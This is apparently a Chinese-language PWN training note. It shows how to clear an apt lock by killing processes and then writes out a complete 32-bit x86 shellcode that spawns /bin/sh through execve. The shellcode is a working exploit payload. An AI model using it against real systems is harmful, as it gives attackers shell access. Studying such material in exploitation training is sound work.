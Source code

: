### `sudo apt-get install nasm` 报错

记录一下无法下载时的解决方法。

1. 使用 `ps -A | grep apt`命令来找出所有 `apt` 进程。
2. 使用 `sudo kill -9 {进程编号}` 来逐个杀死进程。

![](/pics/BIN集训/PWN/三/3.png)

结束所有进程后即可下载。

## 完整编写过程

写入文件 `shellcode.asm`：

```asm
Section .text
	global _start
_start:
	xor ecx,ecx
	mul ecx
	push ecx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	mov al,0xb
	int 0x80
```

